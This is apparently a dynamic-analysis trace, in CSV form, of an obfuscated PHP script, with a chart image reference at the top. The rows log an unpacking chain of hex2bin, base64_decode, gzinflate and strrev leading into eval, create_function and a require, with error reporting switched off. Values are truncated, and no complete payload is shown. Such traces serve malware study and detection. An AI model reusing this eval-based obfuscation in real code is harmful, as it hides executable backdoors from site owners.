

The data file committed next to this chart (first rows):
uuid, file_md5, index, source, target, argc, argv, return, dynamic
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 0, __main__, zend_compile_file, 2, {"value": []}, {"value": "00262600413C49494949494949494…, []
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 1, __main__, _func1, 1, {"value": [[0, "_xp6w6", "68PJ1jIFvX7BVH…, {"value": "??error_reporting(0);??    fu…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 2, _func1, _func2, 1, {"value": [[0, "_XsSg88c", "68PJ1jIFvX7B…, {"value": "TbvnDsPsla33ewaYe/hgGLANTg6rW…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 3, _func2, hex2bin, 1, {"value": [[0, "data", "383037"]]}, {"value": "807"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 4, _func2, substr, 1, {"value": [[0, "data", "383037"]]}, {"value": "807"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 5, _func2, hex2bin, 1, {"value": [[0, "data", "30"]]}, {"value": "0"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 6, _func2, substr, 3, {"value": [[0, "str", "TbvnDsPsla33ewaYe…, {"value": "TbvnDsPsla33ewaYe/hgGLANTg6rW…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 7, _func2, hex2bin, 1, {"value": [[0, "data", "30"]]}, {"value": "0"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 8, _func2, substr, 3, {"value": [[0, "str", "TbvnDsPsla33ewaYe…, {"value": "TbvnDsPsla33ewaYe/hgGLANTg6rW…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 9, _func1, base64_decode, 1, {"value": [[0, "data", "M\xbb\xe7\x0e\xc…, {"value": ";)(PHP$;)emanelif$,''(noitcnu…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 10, _func1, gzinflate, 1, {"value": [[0, "data", "M\xbb\xe7\x0e\xc…, {"value": ";)(PHP$;)emanelif$,''(noitcnu…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 11, _func1, strrev, 1, {"value": [[0, "data", "M\xbb\xe7\x0e\xc…, {"value": ";)(PHP$;)emanelif$,''(noitcnu…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 12, __main__, eval, 1, {"value": [[0, "phpcode", "??error_repor…, {"value": null}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 13, eval, zend_compile_string, 2, {"value": [[0, "source_string", "??error…, {"value": "413C00413C413C082641423C263B3…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 14, eval, error_reporting, 1, {"value": [[0, "header", "content-Type: …, {"value": "void"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 15, eval, header, 1, {"value": [[0, "header", "content-Type: …, {"value": "void"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 16, eval, class_uc_key, 1, {"value": [[0, "string", "6576616C28677A…, {"value": "eval(gzuncompress(base64_deco…, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 17, class_uc_key, trim, 1, {"value": [[0, "hexadecimal_number", "65…, {"value": 101}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 18, class_uc_key, substr, 1, {"value": [[0, "hexadecimal_number", "65…, {"value": 101}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 19, class_uc_key, hexdec, 1, {"value": [[0, "hexadecimal_number", "65…, {"value": 101}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 20, class_uc_key, pack, 2, {"value": [[0, "format", "C"], [1, "args…, {"value": "r"}, [0, 0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 21, class_uc_key, strlen, 1, {"value": [[0, "str", "qe"]]}, {"value": "eq"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 22, class_uc_key, substr, 1, {"value": [[0, "hexadecimal_number", "65…, {"value": 101}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 23, class_uc_key, hexdec, 1, {"value": [[0, "hexadecimal_number", "6C…, {"value": 108}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 24, class_uc_key, pack, 2, {"value": [[0, "format", "C"], [1, "args…, {"value": "u"}, [0, 0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 25, class_uc_key, str_tot13, 1, {"value": [[0, "str", 110]]}, {"value": "r"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 26, class_uc_key, substr, 1, {"value": [[0, "hexadecimal_number", "65…, {"value": 101}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 27, class_uc_key, hexdec, 1, {"value": [[0, "hexadecimal_number", "28…, {"value": 40}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 28, class_uc_key, pack, 2, {"value": [[0, "format", "C"], [1, "args…, {"value": "e"}, [0, 0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 29, class_uc_key, str_tot13, 1, {"value": [[0, "str", 110]]}, {"value": "r"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 30, class_uc_key, substr, 1, {"value": [[0, "hexadecimal_number", "65…, {"value": 101}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 31, class_uc_key, hexdec, 1, {"value": [[0, "hexadecimal_number", "67…, {"value": 103}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 32, class_uc_key, pack, 2, {"value": [[0, "format", "C"], [1, "args…, {"value": "("}, [0, 0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 33, class_uc_key, strlen, 1, {"value": [[0, "str", "qe"]]}, {"value": "eq"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 34, class_uc_key, substr, 1, {"value": [[0, "hexadecimal_number", "65…, {"value": 101}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 35, class_uc_key, hexdec, 1, {"value": [[0, "hexadecimal_number", "6C…, {"value": 108}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 36, class_uc_key, pack, 2, {"value": [[0, "format", "C"], [1, "args…, {"value": "u"}, [0, 0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 37, eval, create_function, 2, {"value": [[0, "args", ""], [1, "code", …, {"value": "\x00lambda_1"}, [0, 0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 38, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 39, eval, __lambda_func, 0, {"value": []}, {"value": null}, []
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 40, __lambda_func, chr, 1, {"value": [[0, "phpcode", "LibBsphp/Glob…, {"value": null}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 41, __lambda_func, chr, 1, {"value": [[0, "phpcode", "LibBsphp/Glob…, {"value": null}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 42, __lambda_func, chr, 1, {"value": [[0, "phpcode", "LibBsphp/Glob…, {"value": null}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 43, __lambda_func, chr, 1, {"value": [[0, "phpcode", "LibBsphp/Glob…, {"value": null}, [0]
6523ed998ffd028b6a30b335e3afff29, 83903657c2c2827946a007dd3d45eefa1, 44, __lambda_func, require, 1, {"value": [[0, "phpcode", "LibBsphp/Glob…, {"value": null}, [0]
